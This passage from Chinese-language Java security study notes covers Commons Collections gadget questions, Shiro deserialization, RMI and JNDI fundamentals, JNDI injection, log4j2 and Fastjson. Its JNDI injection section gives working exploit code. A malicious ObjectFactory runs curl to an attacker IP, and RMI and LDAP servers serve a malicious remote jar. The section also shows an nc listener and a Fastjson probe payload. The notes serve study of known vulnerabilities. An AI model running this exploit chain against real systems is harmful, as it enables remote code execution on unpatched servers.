    - 因为Runtime类没有继承Serializable接口，所以不能被序列化，在序列化时会出错，使用反射可以解决这个问题。
  - 为什么使用LazyMap，不使用HashMap？InvocationHandler可以换成其它类吗？

    - LazyMap配合LazyMap.decorate，可以在get时触发，InvocationHandler在反序列化时会执行到LazyMap的get。
    - HashMap配合TransformedMap，可以在put时触发，可以配合其他的类。所以有了其他的cc链。
    - InvocationHandler是用来在反序列化时触发LazyMap.get的，如果其他类在反序列化时会调用LazyMap.get。所以有了其他的cc链。
  - 为什么Transformers数组最后要加一个ConstantTransformer(1)？

    - 因为Transformers链执行后的内容要添加进map的，而前面的Transformer执行的是Runtime.exec，返回结果是ProcessImpl对象，ProcessImpl类没有继承serializable类，不能被序列化，所以后面加个ConstantTransformer(1)，被添加进map的就是1。

### 中间件反序列化漏洞：

#### shiro反序列化漏洞：

- **（Shiro-550）**

  - **漏洞影响版本：Apache Shiro <= 1.2.4**
  - shiro特征：`rememberMe=deleteMe`字段
  - 

    - 所以知道了key就可以构造反序列化了注入了。因为shiro的反序列化重写了一部分，所以一部分cc链没办法使用，但是还是有可以使用的cc链。
  - **（Shiro-721）**（[CVE-2016-4437） ](https://www.cnblogs.com/backlion/p/14077791.html)）

    - **影响版本**Apache Shiro <= 1.4.1
    - 攻击要求：

      - （需要一个合法的登录账号，基于Padding Oracle attack来实现的攻击）
      - 这玩意要一直爆破，对网站大概要爆破几个小时，没啥实际用途。
    - 漏洞指纹

      1.set-Cookie: rememberMe=deleteMe
      2.URL中有shiro字样
      3.有一些时候服务器不会主动返回 rememberMe=deleteMe, 直接发包即可
  - 在1.2.4版本后，shiro已经更换 AES-CBC AES-CBC 为 AES-GCM AES-GCM ，无法再通过Padding Oracle遍历key。

## RMI

### RMI基础

- RMI全称是Remote Method Invocation，远程方法调⽤用。从这个名字就可以看出，他的⽬目标和RPC其实
  是类似的，是让某个Java虚拟机上的对象调⽤用另一个Java虚拟机中对象上的⽅方法，只不过RMI是Java独
  有的一种机制。

  
- 要调用的远程方法的接口，需要客户端，服务器端都要有这个代码。

  ```java
  package test;
  
  import java.rmi.Remote;
  import java.rmi.RemoteException;
  
  //继承了java.rmi.Remote的接⼝，其中定义我们要远程调用的函数，
  public interface IRemoteHelloWorld extends Remote {
      public String hello() throws RemoteException;
  }
  
  ```
- RMI Server：

  ```java
  package test;
  
  import java.rmi.Naming;
  import test.IRemoteHelloWorld;
  import java.rmi.RemoteException;
  import java.rmi.registry.LocateRegistry;
  import java.rmi.server.UnicastRemoteObject;
  
  //一个主类，用来创建Registry，并将实现了远程方法类实例化后绑定到一个地址。
  public class RMIServer {
  
      //实现了了hello接口的类
      public class RemoteHelloWorld extends UnicastRemoteObject implements
              IRemoteHelloWorld {
          protected RemoteHelloWorld() throws RemoteException {
              super();
          }
          public String hello() throws RemoteException {
              System.out.println("call from");
              return "Hello world";
          }
      }
      private void start() throws Exception {
          //实例化远程方法类
          RemoteHelloWorld h = new RemoteHelloWorld();
          // 注册RMI端口
          LocateRegistry.createRegistry(1099);
          //在端口注册该对象,并将该对象的服务名字设置为hello。
          Naming.rebind("rmi://127.0.0.1:1099/Hello", h);
          /*
          RMI客户端需要有远程调用方法的接口代码(IRemoteHelloWorld.java)（这玩意就是中转站，客户端会有接口，服务器端要实现），
          RMI客户端调用服务器端的RMI服务时会返回这个服务所绑定的对象引用，RMI客户端可以通过该引用对象调用远程的服务实现类的方法并获取方法执行结果。
          */
          System.out.println("RMI服务启动成功,服务地址:" + "rmi://127.0.0.1:1099/Hello");
      }
      //
      public static void main(String[] args) throws Exception {
          new RMIServer().start();
      }
  }
  ```

  - 一个RMI Server分为三部分
    - 一个继承了java.rmi.Remote的接口，其中定义我们要远程调用的函数。
    - 一个实现了此接口的类。
    - 一个主类，用来创建Registry，并将上面的类实例化后绑定到一个地址。这就是我们所谓的Server
      了。这里我们把这个Registry类和实现接口类写在一起了，一般是分开写的。
- RMIClient

  ```java
  package test;
  
  import java.rmi.Naming;
  import test.IRemoteHelloWorld;
  
  public class RMIClient {
  
      public static void main(String[] args) throws Exception {
          //查找远程RMI服务
          IRemoteHelloWorld a = (IRemoteHelloWorld) Naming.lookup("rmi://127.0.0.1:1099/Hello");
          //调用远程接口类的hello方法
          String ret = a.hello();
          System.out.println( ret);
      }
  }
  ```

  - 客户端就简单多了，使用Naming.lookup在Registry中寻找到名字是Hello的对象，后面的使用就和在
    本地使用一样了。**lookup作用就是获得某个远程对象**。
  - 虽然执行远程方法的时候代码在远程服务器上执行的，但是实际我们还是需要知道有哪些方法的，这时候接口的重要性就体现出来了，这也就是为什么我们前面要继承Remote并将我们需要调用的方法写在接口 `IRemoteHelloWorld`里面了，因为客户端也要用到这个接口。
- RMI底层通讯采用了Stub(运行在客户端)和Skeleton(运行在服务端)机制，RMI调用远程方法的大致如下：
- 为了理解RMI的通信过程，使用wireshark抓包，发现整个过程进行了两次tcp握手，也就是实际建立了两次tcp链接。

  - 第一次建立TCP连接是连接远端xxx.xxx.xxx.xxx的1099端口，这也是我们在代码里看到的端口。二者进行沟通后，客户端向远端发送了一个“Call”消息，远端回复了一个“ReturnData”消息。
    - 首先客户端连接Registry，并在其中寻找Name是Hello的对象，这个对应数据流中的Call消息。
    - RMI客户端先创建 `Stub(sun.rmi.registry.RegistryImpl_Stub)`。
    - Stub会将 `Remote`对象传递给远程引用层 `(java.rmi.server.RemoteRef)`并创建 `java.rmi.server.RemoteCall`(远程调用)对象。RemoteCall序列化RMI服务名称、Remote对象。RMI客户端的远程引用层传输RemoteCall序列化后的请求信息通过Socket连接的方式传输到RMI服务端的远程引用层。
    - RMI服务端的远程引用层(sun.rmi.server.UnicastServerRef)收到请求会请求传递给 `Skeleton(sun.rmi.registry.RegistryImpl_Skel#dispatch)`。Skeleton调用RemoteCall，反序列化RMI客户端传过来的数据。Skeleton处理客户端请求：bind、list、lookup、rebind、unbind，**如果是lookup则查找RMI服务名绑定的接口对象，序列化该对象(并不是我们在服务器上写的实现接口类对象，)并通过RemoteCall传输到客户端。**
    - 然后Registry返回一个序列化的数据，这个就是找到的Name=Hello的对象，这个对应数据流中的ReturnData消息；
  - 然后客户端新建立了个TCP连接，连到远端的33769端口（这个端口由返回的数据包得到，是不固定的）。
    - 客户端反序列化该对象，发现该对象是一个**远程对象**，地址在xxx.xxx.xxx.xxx:33769，于是再与这个地址建立TCP连接。**RMI客户端调用远程方法**，**RMI服务端反射调用RMI服务实现类的对应方法并序列化执行结果**返回给客户端。（**使用远程对象会受到一些安全限制，还有一些细节需要补充**）
    - 借用下图来说明这些元素间的关系：
  - 
  - RMI Registry就像一个网关，他自己是不会执行远程方法的，但RMI Server可以在上面注册一个Name到对象的绑定关系；RMI Client通过Name向RMI Registry查询，得到这个绑定关系，然后再连接RMIServer；最后，远程方法实际上在RMI Server上调用。

### RMI漏洞

- 一个RMI过程有三个参与者：

  - RMI Registry
  - RMI Server
  - RMI Client

## JNDI

### JNDI基础

- `JNDI(Java Naming and Directory Interface)`是Java提供的 `Java 命名和目录接口`。**通过调用JNDI的API应用程序可以定位资源和其他程序对象**。**感觉就是一个高层抽象，提供统一的接口来调用各种服务**。`JNDI`是 `Java EE`的重要部分，需要注意的是它并不只是包含了 `DataSource(JDBC 数据源)`，`JNDI`可访问的现有的目录及服务有:`JDBC`、`LDAP`、`RMI`、`DNS`、`NIS`、`CORBA`。

  - **Naming Service 命名服务：**
    - 命名服务将名称和对象进行关联，提供通过名称找到对象的操作，例如：DNS系统将计算机名和IP地址进行关联、文件系统将文件名和文件句柄进行关联等等。
  - **Directory Service 目录服务：**
    - **目录服务是命名服务的扩展**，除了提供名称和对象的关联，**还允许对象具有属性**。目录服务中的对象称之为目录对象。目录服务提供创建、添加、删除目录对象以及修改目录对象属性等操作。
  - **Reference 引用：**
    - 在一些命名服务系统中，系统并不是直接将对象存储在系统中，而是保持对象的引用。引用包含了如何访问实际对象的信息。
  - 更多 `JNDI`相关概念参考: [Java技术回顾之JNDI：命名和目录服务基本概念](https://blog.csdn.net/ericxyy/article/details/2012287)
- JNDI目录服务：

  - 访问 `JNDI`目录服务时会通过预先设置好环境变量访问对应的服务， 如果创建 `JNDI`上下文(`Context`)时未指定 `环境变量`对象，`JNDI`会自动搜索 `系统属性(System.getProperty())`、`applet 参数`和 `应用程序资源文件(jndi.properties)`。
  - **使用 `JNDI`创建目录服务对象代码片段：**

    ```java
    // 创建环境变量对象
    Hashtable env = new Hashtable();
    // 设置JNDI初始化工厂类名
    env.put(Context.INITIAL_CONTEXT_FACTORY, "类名");
    // 设置JNDI提供服务的URL地址
    env.put(Context.PROVIDER_URL, "url");
    // 创建JNDI目录服务对象
    DirContext context = new InitialDirContext(env);
    ```
  - `Context.INITIAL_CONTEXT_FACTORY(初始上下文工厂的环境属性名称)`指的是 `JNDI`服务处理的具体类名称，如：`DNS`服务可以使用 `com.sun.jndi.dns.DnsContextFactory`类来处理，`JNDI`上下文工厂类必须实现 `javax.naming.spi.InitialContextFactory`接口，通过重写 `getInitialContext`方法来创建服务。
  - **javax.naming.spi.InitialContextFactory代码片段**:**

    ```java
    package javax.naming.spi;
    public interface InitialContextFactory {
        public Context getInitialContext(Hashtable<?,?> environment) throws NamingException;
    }
    ```
  - **使用JNDI解析DNS测试：**

    ```java
    package test;
    
    import javax.naming.Context;
    import javax.naming.NamingException;
    import javax.naming.directory.Attributes;
    import javax.naming.directory.DirContext;
    import javax.naming.directory.InitialDirContext;
    import java.util.Hashtable;
    /**
     * Creator: yz
     * Date: 2019/12/23
     */
    public class DNSContextFactoryTest {
        public static void main(String[] args) {
            // 创建环境变量对象
            Hashtable env = new Hashtable();
            // 设置JNDI初始化工厂类名
            env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.dns.DnsContextFactory");
            // 设置JNDI提供服务的URL地址，这里可以设置解析的DNS服务器地址
            env.put(Context.PROVIDER_URL, "dns://223.6.6.6/");
            try {
                // 创建JNDI目录服务对象
                DirContext context = new InitialDirContext(env);
                // 获取DNS解析记录测试
                Attributes attrs1 = context.getAttributes("baidu.com", new String[]{"A"});
                Attributes attrs2 = context.getAttributes("qq.com", new String[]{"A"});
                System.out.println(attrs1);
                System.out.println(attrs2);
            } catch (NamingException e) {
                e.printStackTrace();
            }
        }
    }
    ```

    - 程序运行结果

      ```
      {a=A: 220.181.38.148, 220.181.38.251}
      {a=A: 61.129.7.47, 183.3.226.35, 123.151.137.18}
      ```
  - JNDI-RMI远程方法调用:

    - `RMI`的服务处理工厂类是:`com.sun.jndi.rmi.registry.RegistryContextFactory`，在调用远程的 `RMI`方法之前需要先启动 `RMI`服务：`com.anbai.sec.rmi.RMIServerTest`，启动完成后就可以使用 `JNDI`连接并调用了。
    - **使用JNDI解析调用远程RMI方法测试：**

      ```java
      package com.anbai.sec.jndi;
      import com.anbai.sec.rmi.RMITestInterface;
      import javax.naming.Context;
      import javax.naming.NamingException;
      import javax.naming.directory.DirContext;
      import javax.naming.directory.InitialDirContext;
      import java.rmi.RemoteException;
      import java.util.Hashtable;
      import static com.anbai.sec.rmi.RMIServerTest.*;
      /**
       * Creator: yz
       * Date: 2019/12/24
       */
      public class RMIRegistryContextFactoryTest {
         public static void main(String[] args) {
            String providerURL = "rmi://" + RMI_HOST + ":" + RMI_PORT;
            // 创建环境变量对象
            Hashtable env = new Hashtable();
            // 设置JNDI初始化工厂类名
            env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
            // 设置JNDI提供服务的URL地址
            env.put(Context.PROVIDER_URL, providerURL);
            // 通过JNDI调用远程RMI方法测试，等同于com.anbai.sec.rmi.RMIClientTest类的Demo
            try {
               // 创建JNDI目录服务对象
               DirContext context = new InitialDirContext(env);
               // 通过命名服务查找远程RMI绑定的RMITestInterface对象
               RMITestInterface testInterface = (RMITestInterface) context.lookup(RMI_NAME);
               // 调用远程的RMITestInterface接口的test方法
               String result = testInterface.test();
               System.out.println(result);
            } catch (NamingException e) {
               e.printStackTrace();
            } catch (RemoteException e) {
               e.printStackTrace();
            }
         }
      }
      ```
  - JNDI-LDAP：

    - `LDAP`的服务处理工厂类是:`com.sun.jndi.ldap.LdapCtxFactory`，连接 `LDAP`之前需要配置好远程的 `LDAP`服务。

      ```java
      package com.anbai.sec.jndi;
      import javax.naming.Context;
      import javax.naming.directory.DirContext;
      import javax.naming.directory.InitialDirContext;
      import java.util.Hashtable;
      /**
       * Creator: yz
       * Date: 2019/12/24
       */
      public class LDAPFactoryTest {
         public static void main(String[] args) {
            try {
               // 设置用户LDAP登陆用户DN
               String userDN = "cn=Manager,dc=javaweb,dc=org";
               // 设置登陆用户密码
               String password = "123456";
               // 创建环境变量对象
               Hashtable<String, Object> env = new Hashtable<String, Object>();
               // 设置JNDI初始化工厂类名
               env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");
               // 设置JNDI提供服务的URL地址
               env.put(Context.PROVIDER_URL, "ldap://localhost:389");
               // 设置安全认证方式
               env.put(Context.SECURITY_AUTHENTICATION, "simple");
               // 设置用户信息
               env.put(Context.SECURITY_PRINCIPAL, userDN);
               // 设置用户密码
               env.put(Context.SECURITY_CREDENTIALS, password);
               // 创建LDAP连接
               DirContext ctx = new InitialDirContext(env);
              // 使用ctx可以查询或存储数据,此处省去业务代码
               ctx.close();
            } catch (Exception e) {
               e.printStackTrace();
            }
         }
      }
      ```
- JNDI协议转换：

  - 如果 `JNDI`在 `lookup`时（这里的lookup不是）没有指定初始化工厂名称，会自动根据协议类型动态查找内置的工厂类然后创建处理对应的服务请求。
  - `JNDI`默认支持自动转换的协议有：

    | 协议名称             | 协议URL          | Context类                                                 |
    | :------------------- | :--------------- | :-------------------------------------------------------- |
    | DNS协议              | `dns://`       | `com.sun.jndi.url.dns.dnsURLContext`                    |
    | RMI协议              | `rmi://`       | `com.sun.jndi.url.rmi.rmiURLContext`                    |
    | LDAP协议             | `ldap://`      | `com.sun.jndi.url.ldap.ldapURLContext`                  |
    | LDAP协议             | `ldaps://`     | `com.sun.jndi.url.ldaps.ldapsURLContextFactory`         |
    | IIOP对象请求代理协议 | `iiop://`      | `com.sun.jndi.url.iiop.iiopURLContext`                  |
    | IIOP对象请求代理协议 | `iiopname://`  | `com.sun.jndi.url.iiopname.iiopnameURLContextFactory`   |
    | IIOP对象请求代理协议 | `corbaname://` | `com.sun.jndi.url.corbaname.corbanameURLContextFactory` |
  - **RMI示例代码片段：**

    ```java
    // 创建JNDI目录服务上下文
    InitialContext context = new InitialContext();
    // 查找JNDI目录服务绑定的对象
    Object obj = context.lookup("rmi://127.0.0.1:9527/test");
    ```
  - 示例代码通过 `lookup`会自动使用 `rmiURLContext`处理 `RMI`请求。

### JNDI注入漏洞

- 又是注入漏洞，又是数据被当作功能执行了。
- **JNDI注入漏洞，就是服务器直接或者间接的调用JNDI服务，且 `lookup`的参数值可控，也就是我们可以输入访问的服务的url，比如 `rmi://127.0.0.1:9527/test`，进而使得服务器执行JNDI功能。**而在 `JNDI`服务中允许使用系统以外的对象，比如在某些目录服务中直接加载远程的Java对象，比如RMI/LDAP的服务对象如果是远程引用对象（这个对象包含了一个jar文件的url和类名字的信息），就会直接加载这个jar文件中的目标类到本地并实例化成对象，这种加载需要远程的jar文件中的该类实例化一个接口（`javax.naming.spi.ObjectFactory`接口），当本地加载这个类时就会执行这个接口的代码，所以实现接口时写入恶意执行命令的代码，这样一旦对象被加载到本地，就会执行该代码。
- **RMI/LDAP加载远程引用对象安全限制**

  - **在 `RMI`服务中加载远程引用对象将受本地Java环境限制即本地的 `java.rmi.server.useCodebaseOnly`配置必须为 `false(允许加载远程对象)`，如果该值为 `true`则禁止加载远程对象。**
  - **除此之外被引用的 `ObjectFactory`对象还将受到 `com.sun.jndi.rmi.object.trustURLCodebase`配置限制，如果该值为 `false(不信任远程引用对象)`一样无法调用远程的引用对象。**所以在jdk8中8u113之前可以利用

    ```
    JDK 5 U45,JDK 6 U45,JDK 7u21,JDK 8u121开始java.rmi.server.useCodebaseOnly默认配置已经改为了true。
    JDK 6u132, JDK 7u122, JDK 8u113开始com.sun.jndi.rmi.object.trustURLCodebase默认值已改为了false。
    ```

    - 本地测试远程对象引用可以使用如下方式允许加载远程的引用对象：

    ```java
    System.setProperty("java.rmi.server.useCodebaseOnly", "false");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    ```
  - **`LDAP`在 `JDK 11.0.1、8u191、7u201、6u211`后也将默认的 `com.sun.jndi.ldap.object.trustURLCodebase`设置为了 `false`。**所以所以在jdk8中8u191之前可以利用。
- 使用创建恶意的ObjectFactory对象：

  - `JNDI`允许通过**对象工厂** (`javax.naming.spi.ObjectFactory`)动态加载对象实现，例如，当查找绑定在名称空间中的打印机时，如果打印服务将打印机的名称绑定到 Reference，则可以使用该打印机 Reference 远程**加载一个打印机对象到本地**，从而查找的调用者可以在查找后直接在该打印机对象上操作。
  - 对象工厂必须实现 `javax.naming.spi.ObjectFactory`接口并重写 `getObjectInstance`方法。

    ```java
    package test;
    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.util.Hashtable;
    /**
     * 引用对象创建工厂
     */
    public class ReferenceObjectFactory implements ObjectFactory {
        /**
         * @param obj  包含可在创建对象时使用的位置或引用信息的对象（可能为 null）。
         * @param name 此对象相对于 ctx 的名称，如果没有指定名称，则该参数为 null。
         * @param ctx  一个上下文，name 参数是相对于该上下文指定的，如果 name 相对于默认初始上下文，则该参数为 null。
         * @param env  创建对象时使用的环境（可能为 null）。
         * @return 对象工厂创建出的对象
         * @throws Exception 对象创建异常
         */
        public Object getObjectInstance(Object obj, Name name, Context ctx, Hashtable<?, ?> env) throws Exception {
            // 在创建对象过程中插入恶意的攻击代码，或者直接创建一个本地命令执行的Process对象从而实现RCE
            return Runtime.getRuntime().exec("curl 172.26.146.230:9000"); //攻击机监听的ip和端口
        }
    }
    ```
  - 攻击机开始监听9000端口：` nc -lvv 9000`
- RMI服务端和客户端均在本机上，但是恶意jar文件和nc均在攻击机上。
- **创建恶意的RMI服务**

  - 如果我们在 `RMI`服务端绑定一个恶意的引用对象，**`RMI`客户端在获取服务端绑定的对象时发现是一个 `Reference`对象后检查当前 `JVM`是否允许加载远程引用对象，如果允许加载且本地不存在此对象工厂类则使用 `URLClassLoader`加载远程的 `jar`，并加载我们构建的恶意对象工厂(`ReferenceObjectFactory`)类然后调用其中的 `getObjectInstance`方法从而触发该方法中的恶意 `RCE`代码。**

    ```java
    package test;
    import com.sun.jndi.rmi.registry.ReferenceWrapper;
    import javax.naming.Reference;
    import java.rmi.Naming;
    import java.rmi.registry.LocateRegistry;
    /**
     * Creator: yz
     * Date: 2019/12/25
     */
    public class RMIReferenceServerTest {
        public static void main(String[] args) {
            try {
                // 定义一个远程的jar，jar中包含一个恶意攻击的对象的工厂类
                String url = "http://172.26.146.230:8000/base.jar";
                // 对象的工厂类名
                String className = "test.ReferenceObjectFactory";
                // 监听RMI服务端口
                LocateRegistry.createRegistry(1099);
                // 创建一个远程的JNDI对象工厂类的引用对象
                Reference reference = new Reference(className, className, url);
                // 转换为RMI引用对象
                ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
                // 绑定一个恶意的Remote对象到RMI服务
                Naming.bind("rmi://127.0.0.1:1099/Rmitest", referenceWrapper);
                System.out.println("RMI服务启动成功,服务地址:" + "rmi://127.0.0.1:1099/Rmitest");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
    ```
  - 启动程序：`RMI服务启动成功,服务地址:rmi://127.0.0.1:1099/Rmitest`
  - 将ReferenceObjectFactor类打包成jar文件传给攻击机，攻击机在jar文件所在目录利用python启动一个网站 `python -m http.server`，使得可以利用url访问这个jar文件。[idea如何打包jar](https://cloud.tencent.com/developer/article/1764737)

    ```shell
    (base) root in /mnt/c/Users/xxxx/OneDrive/code/JAVA/out/artifacts/base_jar λ python -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    ```
  - 通过JNDI调用RMI的客户端代码

    ```java
    package test;
    
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    /**
     * Creator: yz
     * Date: 2019/12/25
     */
    public class RMIReferenceClientTest {
        public static void main(String[] args) {
            try {
    //       // 测试时如果需要允许调用RMI远程引用对象加载请取消如下注释
    //       System.setProperty("java.rmi.server.useCodebaseOnly", "false");
    //       System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
                InitialContext context = new InitialContext();
                // 获取RMI绑定的恶意ReferenceWrapper对象
                Object obj = context.lookup("rmi://127.0.0.1:1099");
                System.out.println(obj);
            } catch (NamingException e) {
                e.printStackTrace();
            }
        }
    }
    
    ```
  - 客户端执行成功后,可以在攻击机的nc中看到来自客户端的 `curl`请求，也就产生了RCE：

    ```http
    Listening on xxx 9000
    Connection received on xxx.mshome.net 28634
    GET / HTTP/1.1
    Host: 172.26.146.230:9000
    User-Agent: curl/7.55.1
    Accept: */*
    ```
- **创建恶意的LDAP服务**

  - `LDAP`和 `RMI`同理，测试方法也同上。启动LDAP服务端程序后我们会在 `LDAP`请求中返回一个含有恶意攻击代码的对象工厂的远程 `jar`地址，客户端会加载我们构建的恶意对象工厂(`ReferenceObjectFactory`)类然后调用其中的 `getObjectInstance`方法从而触发该方法中的恶意 `RCE`代码。

    ```java
    package test;
    
    import com.unboundid.ldap.listener.InMemoryDirectoryServer;
    import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
    import com.unboundid.ldap.listener.InMemoryListenerConfig;
    import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
    import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
    import com.unboundid.ldap.sdk.Entry;
    import com.unboundid.ldap.sdk.LDAPResult;
    import com.unboundid.ldap.sdk.ResultCode;
    import javax.net.ServerSocketFactory;
    import javax.net.SocketFactory;
    import javax.net.ssl.SSLSocketFactory;
    import java.net.InetAddress;
    public class LDAPReferenceServerTest {
        // 设置LDAP服务端口
        public static final int SERVER_PORT = 3890;
        // 设置LDAP绑定的服务地址，外网测试换成0.0.0.0
        public static final String BIND_HOST = "127.0.0.1";
        // 设置一个实体名称
        public static final String LDAP_ENTRY_NAME = "ldaptest";
        // 获取LDAP服务地址
        public static String LDAP_URL = "ldap://" + BIND_HOST + ":" + SERVER_PORT + "/" + LDAP_ENTRY_NAME;
        // 定义一个远程的jar，jar中包含一个恶意攻击的对象的工厂类
        public static final String REMOTE_REFERENCE_JAR = "http://172.26.146.230:8000/base.jar";
        // 设置LDAP基底DN
        private static final String LDAP_BASE = "dc=javasec,dc=org";
        public static void main(String[] args) {
            try {
                // 创建LDAP配置对象
                InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
                // 设置LDAP监听配置信息
                config.setListenerConfigs(new InMemoryListenerConfig(
                        "listen", InetAddress.getByName(BIND_HOST), SERVER_PORT,
                        ServerSocketFactory.getDefault(), SocketFactory.getDefault(),
                        (SSLSocketFactory) SSLSocketFactory.getDefault())
                );
                // 添加自定义的LDAP操作拦截器
                config.addInMemoryOperationInterceptor(new OperationInterceptor());
                // 创建LDAP服务对象
                InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
                // 启动服务
                ds.startListening();
                System.out.println("LDAP服务启动成功,服务地址：" + LDAP_URL);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        private static class OperationInterceptor extends InMemoryOperationInterceptor {
            @Override
            public void processSearchResult(InMemoryInterceptedSearchResult result) {
                String base  = result.getRequest().getBaseDN();
                Entry  entry = new Entry(base);
                try {
                    // 设置对象的工厂类名
                    String className = "test.ReferenceObjectFactory";
                    entry.addAttribute("javaClassName", className);
                    entry.addAttribute("javaFactory", className);
                    // 设置远程的恶意引用对象的jar地址
                    entry.addAttribute("javaCodeBase", REMOTE_REFERENCE_JAR);
                    // 设置LDAP objectClass
                    entry.addAttribute("objectClass", "javaNamingReference");
                    result.sendSearchEntry(entry);
                    result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
                } catch (Exception e1) {
                    e1.printStackTrace();
                }
            }
        }
    }
    ```
  - unboundid依赖的maven配置

    ```
    <dependency>
        <groupId>com.unboundid</groupId>
        <artifactId>unboundid-ldapsdk</artifactId>
        <version>3.2.0</version>
    </dependency>
    ```
  - 客户端代码用上面rmi的改下url和安全配置就行，攻击机继续监听9000端口。

    ```java
    package test;
    
    import javax.naming.Context;
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    /**
     * Creator: yz
     * Date: 2019/12/27
     */
    public class LDAPReferenceClientTest {
        public static void main(String[] args) {
            try {
           // 测试时如果需要允许调用LDAP远程引用对象加载请取消如下注释
           System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
                Context ctx = new InitialContext();
                // 获取RMI绑定的恶意ReferenceWrapper对象
                Object obj = ctx.lookup("ldap://127.0.0.1:3890/ldaptest");
                System.out.println(obj);
            } catch (NamingException e) {
                e.printStackTrace();
            }
        }
    }
    ```
  - nc收到客户端发来的curl请求，成功RCE
- **jndi利用工具：**

  - **[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://github.com/welk1n/JNDI-Injection-Exploit)** ：可以快速搭建好RMI和LDAP服务并且携带命令执行的jar文件。这样就不用自己写payload了。

### 高版本 JDK 的绕过

### 中间件的JNDI漏洞

#### log4j2

- 参考资料：

  - https://www.cnblogs.com/TJWater/p/15674995.html
  - https://xz.aliyun.com/t/10649
  - https://blog.csdn.net/hilaryfrank/article/details/122046180
- 漏洞范围：

  - 2.0——2.15.0 ：CVE-2021-44228
  - 2.15.0-rc1:
    - `PatternLayout.toSerializable`方法发生了变化,其中的 `formatters`属性的变化导致了 `${}`不会被处理。这样需要用户自己修改lookup的配置才能绕过。
      - 或者利用配置文件会解析用户的输入，走另外的函数。业务使用了ctx在日志规则中打印线程上下文中对应key，如：apiVersion,ctx中对应的key(如apiVersion)必须来自外部输入，且未做安全校验。
    - 同时最后 `JndiManager.lookup`触发漏洞的地方进行了修改，设置了host白名单。可通过url加空格，直接不进入这个函数。
  - 2.15.0-rc2：修复了利用在url加入空格的漏洞。需要业务的DSN被污染，能够将//127.0.0.1#evilhost.com:1389/a解析到evilhost.com域名下去
  - 2.16.0：默认关闭了Jndi
  - 

#### FastJson 反序列化JNDI注入示例：

- https://xz.aliyun.com/t/7027
- 如果fastjson采用的是

  - `JSONObject.parseObject(Json, xxxx.class); `//JSON文本解析成xxx.class类
  - 就没反办法反序列化其他的了。
- fastjson版本探测：

  - ```
      先探测是不是fastjson
      {"@type":"java.net.Inet4Address","val":"dnslog"}
    ```
- `被屏蔽的type`该关键词的特性会加载任意类，并给提供的输入字段的值进行恢复，如果字段有setter、getter方法会自动调用该方法，进行赋值，恢复出整个类。
  这个过程会被叫做fastjson的反序列化过程，注意不要把这个过程跟java反序列化过程混为一谈。它们两个是同等级的存在，而不是前者基于后者之上。也就是说readObject()反序列化利用点那一套在这根本不适用。相应的被屏蔽的type加载任意类+符合条件的setter与getter变成了反序列化利用点（个人总结的三要素中的反序列化漏洞触发点）。
- 在1.2.25中的修复原理就是针对了反序列化漏洞触发点进行限制。对于 `被屏蔽的type`标签进行一个白名单+黑名单的限制机制。
- 在默认的 `AutoTypeSupport为False`时，要求不匹配到黑名单，同时必须匹配到白名单的class才可以成功加载。错误就报 `"autoType is not support. " + typeName`
- `AutoTypeSupport为True`时候会匹配黑名单。错误就报 `"autoType is not support. " + typeName`
- （fastjson>=1.2.25默认为false）
- 1.2.25-1.2.41绕过:

  - 所以接下来所谓的绕过都是在服务端显性开启 `AutoTypeSupport为True`的情况下进行的。（这是一个很大的限制条件）
- 1.2.44-1.2.45安全补丁:

  - 修复了1.2.43版本中 autoTypeSupport为 true时，恶意类名前添加 [的引发安全问题，但仍存在绕过
    ⻛险。
- 1.2.47 通杀payload！: 无需AutoTypeSupport，没有黑白名单要求。

  - 利⽤缓存 mappings从⽽绕过了⿊⽩名单的限制加载 com.sun.rowset.JdbcRowSetImpl类。不受
    autoTypeSupport选项的影响，威⼒更⼤，范围更⼴。
- fastjson<=1.2.68：

  - expectClass绕过AutoType）

    - 这是一条任意文件写入的利用链(不受autotype限制), 而写入一个jsp文件放在现在的大多数情况下并不能够被解析, 而且也不知道要写在哪个位置, 难以利用.
    - 之前版本的fastjson RCE都是通过JNDI注入执行恶意代码, 受限于jdk版本; 而这条利用链根据LandGrey师傅收集的jdk目录与分享的利用代码, 推测是几乎很少受到限制, 但可能对应不同的场景仍需要一些小改动.
  - 修复方式简单粗暴，将java.lang.Runnable，java.lang.Readable和java.lang.AutoCloseable加 入了黑名单
  - 并且从这个版本(1.2.68)开始，Fastjson 引入了safeMode功能，完全禁用autoType。所有的安全修复版本sec10也支持SafeMode配置。
  - 代码中设置开启SafeMode如下：

    ```java
    ParserConfig.getGlobalInstance().setSafeMode(true);
    ```

    开启之后，就完全禁用AutoType即 `@type`了，这样就能防御住Fastjson反序列化漏洞了。
- Fastjson 1.2.80 及之前版本存在 Throwable 反序列化漏洞

  - Fastjson 1.2.80 及之前版本使用黑白名单用于防御反序列化漏洞，经研究该防御策略在特定条件下可绕过默认 autoType 关闭限制，攻击远程服务器，风险影响较大。建议 Fastjson 用户尽快采取安全措施保障系统安全。
  - 暂无poc

## java web常见漏洞

> https://www.freebuf.com/articles/web/289863.html   java-sec-code
>
> https://github.com/proudwind/javasec_study

### 1. sqli

java是一门强类型的语言，所以数字型注入一般很少出现，但还是要有必要的类型转换。

- 比如通过HttpServletRequest的getParameter方法获取到的参数的类型都是String。
- `int id = Integer.valueof(req.getParameter("id"));`

#### 基本的sql执行函数：

